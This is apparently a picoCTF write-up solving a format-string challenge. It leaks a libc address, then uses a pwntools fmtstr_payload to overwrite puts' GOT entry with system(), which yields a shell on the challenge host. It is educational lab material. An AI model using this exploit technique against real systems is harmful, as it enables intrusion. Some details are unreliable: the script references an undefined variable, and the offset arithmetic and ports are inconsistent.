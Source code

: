 # format string 3

## Solving

```
This program doesn't contain a win function. How can you win?
Download the binary here.
Download the source here.
Download libc here, download the interpreter here. Run the binary with these two files present in the same directory.
Connect with the challenge instance here:
nc rhea.picoctf.net 49363
```

```c
#include <stdio.h>

#define MAX_STRINGS 32

char *normal_string = "/bin/sh";

void setup() {
        setvbuf(stdin, NULL, _IONBF, 0);
        setvbuf(stdout, NULL, _IONBF, 0);
        setvbuf(stderr, NULL, _IONBF, 0);
}

void hello() {
        puts("Howdy gamers!");
        printf("Okay I'll be nice. Here's the address of setvbuf in libc: %p\n", &setvbuf);
}

int main() {
        char *all_strings[MAX_STRINGS] = {NULL};
        char buf[1024] = {'\0'};

        setup();
        hello();

        fgets(buf, 1024, stdin);
        printf(buf);

        puts(normal_string);

        return 0;
}
```

Lookin at format-string-3.c source file we see no evidence of a flag file but references to /bin/sh, so we can assume our task is to spawn a shell.

The use of printf(buf), will be our format vulnerability.

Now essentially near the end after the ``printf`` vuln we see the puts statement for the function to spawn a shell. If we can change this ``puts`` to a syscall we can spawn a shell. 

Now like the last challenge let's first find the offset where the user input is placed on.

We can do this with our payload of ``(python3 -c 'print("1"*8 + ",%llx" * 50)')``

We can send this using python3

```shell
hadakoi@Laptop:~/ctfsolve$ (python3 -c 'print("1"*8 + ",%llx" * 50)') | ./format-string-3
Howdy gamers!
Okay I'll be nice. Here's the address of setvbuf in libc: 0x7fe3d04c93f0
  11111111,7fe3d0627963,fbad208b,7ffe85115400,1,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,3131313131313131,6c252c786c6c252c,2c786c6c252c786c,6c6c252c786c6c25,252c786c6c252c78,786c6c252c786c6c,6c252c786c6c252c,2c786c6c252c786c,6c6c252c786c6c25,252c786c6c252c78,786c6c252c786c6c,6c252c786c6c252c,2c786c6c252c786c
/bin/sh
```
Now over here we can see our offset is 38

It also seems to have given the address of setvbuf in libc. 

Now back to the files they have given us they have provided us with a libc file. which is a core system library containing providing all the functions that programmes need for basic operations. When a program is compiled, many of its functions are not included in the binary itself. Instead, the program relies on external libraries like ``libc`

Now essentially over here we must find the address of ``system()`` we can only do this when we have the base pointer of libc and calculating a potential offset from the actual address. 

Hence because they have leaked to us the address of setvbuf in libc which is ``0x7fe3d04c93f0`` we can find the base pointer for this by doing ``(leaked setvbuf address) - (offset address of setvbuf)``

``libc base address=Actual address − Offset address``


Now we can load up the lib into gdb to find the offset address  ``setvbuf`` 

```shell
hadakoi@Laptop:~/ctfsolve$ gdb ./libc.so.6
GNU gdb (Ubuntu 15.0.50.20240403-0ubuntu1) 15.0.50.20240403-git
Copyright (C) 2024 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
Type "show copying" and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<https://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
    <http://www.gnu.org/software/gdb/documentation/>.

For help, type "help".
Type "apropos word" to search for commands related to "word"...
Reading symbols from ./libc.so.6...

This GDB supports auto-downloading debuginfo from the following URLs:
  <https://debuginfod.ubuntu.com>
Enable debuginfod for this session? (y or [n]) y
Debuginfod has been enabled.
To make this setting permanent, add 'set debuginfod enabled on' to .gdbinit.
(No debugging symbols found in ./libc.so.6)
(gdb) info address setvbuf
Symbol "setvbuf" is at 0x7a3f0 in a file compiled without debugging.
(gdb)
```

Now that we know its ``0x783f0`` we can subtract this from ``0x7fe3d04c93f0`` This makes the libc base address ``0x7fe3d04c5f00``

However upon rerunning the script we realise that the leaked address changes on each runtime.

Now luckily pwntools has a cool feature where unlike last time I do not have to do all those weird calculations but can rather link the function from the linkc address 

```python                                                                  
from pwn import *

context.arch = 'amd64' # making sure everything is sent in correct instruction set

exe = "./format-string-3"
elf = ELF(exe)
libc = ELF("./libc.so.6")

p = remote("rhea.picoctf.net", 57804)

p.recvuntil(b'setvbuf in libc: ')
leakaddress = int(p.recvline().strip(), 16)
print("setvbuf @ %#x" % leak)

libc.address = leakaddress - 0x000000000007a3f0
print("libc @ %#x" % libc.address) # Calculating the true address

payload = fmtstr_payload(38, {elf.sym.got.puts: libc.sym.system}) #

p.sendline(payload)
p.interactive()
```

Now the main part here is the ``payload = fmtstr_payload(start, {elf.sym.got.puts: libc.sym.system})`` 

the ``fmtstr_payload()`` is uses to generate a payload we also have the starting spot of where the input is entered into which was our offset on the stack of 38

``elf.sym.got.puts`` refers to the GOT entry for puts()

---

**NOTE:** GOT is a table used by programmes that use shared libraries (like libc) to store the addresses of functions the program will call
for example in this case when a programm needs to call ``puts()`` instead of directly calling it the programme calls the ``GOT entry for puts which is a placeholder this points to the put()`` address present in libc.

As such we can exploit this changing this address that it knows for puts to the address for ``system()``.

---

libc.sym.system gives you the address of the system() function in the libc binary you've loaded. This is possbile as we calculated for the base address of the libc library

This address for system is what we use to overwrite the GOT entry for puts, so when the program tries to call puts, it will actually call system() instead. This is often used to spawn a shell (i.e., execute a command) when you pass it a command like /bin/sh.


Now running this script we end up managing to open up a shell allowing us to look around the directory to which i then see a file ``flag.txt`` from here I just cat the flag.txt retruning us the flag to which i can promptely exit the session.

```shell
hadakoi@Laptop:~/ctfsolve$ python3 script.py
[*] '/home/hadakoi/ctfsolve/format-string-3'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x3ff000)
    RUNPATH:  b'.'
[*] '/home/hadakoi/ctfsolve/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to rhea.picoctf.net on port 57804: Done
setvbuf @ 74c6d5a3a3f0
libc @ 74c6d59c0000
[*] Switching to interactive mode
                                                                                               c                   \x8b                                           \xd0                                                   \x00                                 \x00aaaaba\x18ls
Makefile
artifacts.tar.gz
flag.txt
format-string-3
format-string-3.c
ld-linux-x86-64.so.2
libc.so.6
metadata.json
profile
$ cat flag.txt
picoCTF{G07_G07?_f574d38f}$
```

## Flag

> picoCTF{G07_G07?_f574d38f}
